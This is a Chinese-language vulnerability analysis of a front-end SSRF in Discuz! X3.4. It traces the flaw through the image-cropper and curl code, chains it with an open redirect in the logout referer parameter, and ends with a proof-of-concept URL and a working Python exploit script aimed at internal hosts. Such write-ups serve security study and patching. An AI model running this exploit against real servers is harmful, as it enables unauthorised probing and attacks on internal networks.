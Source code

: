 Discuz! X3.4 前台ssrf
=====================

一、漏洞简介
------------

DDiscuz! X3.4
source/module/misc/misc\_imgcropper.php页面中的cutimg参数，因为应用程序的远程下载功能过滤不严，配合前台任意URL跳转漏洞，可以造成SSRF漏洞，可以对与外部隔离的内部环境进行探测和攻击

二、漏洞影响
------------

-   \<= x3.4

-   windows

-   php\>5.3+php-curl\<=7.54

-   DZ开放在80端口

三、复现过程
------------

### 漏洞分析

**本地ssrf**

/source/module/misc/misc\_imgcropper.php 55行

        require_once libfile('class/image');    $image = new image();   $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl']; if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {      showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));    }
    $prefix`可以通过GET传递`$_GET['picflag']`为2进行三元操作，变成了默认的`/`，然后和`$_GET['cutimg']`进行拼接作为第一个参数传进了`$image->Thumb

source/class/class\_image.php 51行

        function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {        $return = $this->init('thumb', $source, $target, $nosuffix); }

拼接后的参数作为`$source`又传进了init函数

source/class/class\_image.php 118行

        function init($method, $source, $target, $nosuffix = 0) {       global $_G;     $this->errorcode = 0;        if(empty($source)) {            return -2;      }       $parse = parse_url($source);        if(isset($parse['host'])) {         if(empty($target)) {                return -2;          }           $data = dfsockopen($source);            $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');            if(!$data || $source === FALSE) {               return -2;          }           file_put_contents($source, $data);      }

可以发现如果`$source`经过`parse_url`的解析结果中如果包含host字段就不结束流程，然后将`$source`参数传入`dfsockopen`函数。Php中的`parse_url`函数是可以对`//`开头的域名进行解析的,
`$source`本身就是`/`开头，因此只需要通过开始的`$_GET['cutimg']`注入`/www.0-sec.org，变成`//www.0-sec.org\`即可继续执行。

![](./resource/Discuz!X3.4前台ssrf/media/rId25.png)

source/function/function\_core.php 199行

    function dfsockopen($url, $limit = 0, $post = '', $cookie = '', $bysocket = FALSE, $ip = '', $timeout = 15, $block = TRUE, $encodetype  = 'URLENCODE', $allowcurl = TRUE, $position = 0, $files = array()) {    require_once libfile('function/filesock');  return _dfsockopen($url, $limit, $post, $cookie, $bysocket, $ip, $timeout, $block, $encodetype, $allowcurl, $position, $files);}

进入dfsockopen函数后，我们构造的字符串变为\$url，然后传入了\_dfsockopen函数。

dz/source/function/function\_filesock.php 31行

image

发起了curl请求，就是这里触发了ssrf，这里的现有使用后parse\_url解析了一次\$url，和上面的解析是一样的，然后又进行了拼接成为了curl的地址。

![](./resource/Discuz!X3.4前台ssrf/media/rId26.png)

其\$scheme为空，如果我们为cutimg传入/dz//member.php，那么到就会变成://dz//member.php

![](./resource/Discuz!X3.4前台ssrf/media/rId27.png)

在php的curl中我们尝试访问://dz/forum.php

![](./resource/Discuz!X3.4前台ssrf/media/rId28.png)

可以发现无指定协议的默认就是http协议，://是代表访问本地dz/forum.php表示路径和path，因此能够访问首页，到这里就有了一个可以对通网站下进行ssrf的漏洞点。

Curl的配置当中开启了跳转

![](./resource/Discuz!X3.4前台ssrf/media/rId29.png)

再找到一个站内的url跳转，就能绕过站内curl的限制，实现真正的ssrf。

### 前台任意url跳转

/source/class/class\_member.php 310行

![](./resource/Discuz!X3.4前台ssrf/media/rId31.png)

调用了dreferer()结果作为跳转地址，继续跟进该函数。

source/function/function\_core.php 1498行

![](./resource/Discuz!X3.4前台ssrf/media/rId32.png)

`$_G['referer']`这个参数我们可控，同样使用了`parse_url`进行了解析，首先对协议进行了判断，需要属于`http/https`。

然后又对host字段和`$_SERVER['HTTP_HOST']`进行了对比，判断是否在同一个域名下，因为攻击中是通过curl发起的请求，\$\_SERVER\['HTTP\_HOST'\]此时为空，但是和www.进行了，因此这里域名为`www.`即可绕过判断成功注入location字段

此时处理跳转的是php的curl，curl这里会因为`#@`出现解析问题，会跳转到192.168.2.63:6666，也就是形成ssrf。

![](./resource/Discuz!X3.4前台ssrf/media/rId33.png)

站内ssrf-\>前台get型的任意url跳转-\>ssrf漏洞

**总结**：

因为应用程序的远程下载功能过滤不严，利用php中的parse\_url还有curl解析特性，配合前台任意URL跳转漏洞，可以造成SSRF漏洞。

### poc

    htp://www.0-sec.org/code-src/dz/Discuz_TC_BIG5/upload/member.php?mod=logging&action=logout&XDEBUG_SESSION_START=13904&referer=http://localhost%23%40www.baidu.com&quickforward=1

### python 脚本

    # coding=utf-8
    import requests
    import re
    from urllib.parse import urlparse, quote
    from urllib import parse
    if __name__ == "__main__":
        url = "http://192.168.66.129/dz/"
        ssrf_target = "192.168.0.36:6666"
        path = urlparse(url).path
        payload = quote(
            "/member.php?mod=logging&action=logout&quickforward=1&referer=http://www.%23%40{ssrf_target}".format(
                ssrf_target=ssrf_target))
        s = requests.Session()
        html = s.get(url).text
        searchObj = re.search(r'name="formhash" value="(.*?)"', html, re.M | re.I)
        formhash = searchObj.group(1)
        rs = s.post(
            url + "misc.php?mod=imgcropper&imgcroppersubmit=1&formhash={formhash}&picflag=2&cutimg={path}{payload}".format(
                formhash=formhash, path=path, payload=payload))
        exit()

![](./resource/Discuz!X3.4前台ssrf/media/rId36.png)

参考链接
--------

> [http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html](http://www.rai4over.cn/2018/12/07/Discuz-3-4前台有限制SSRF漏洞/index.html)
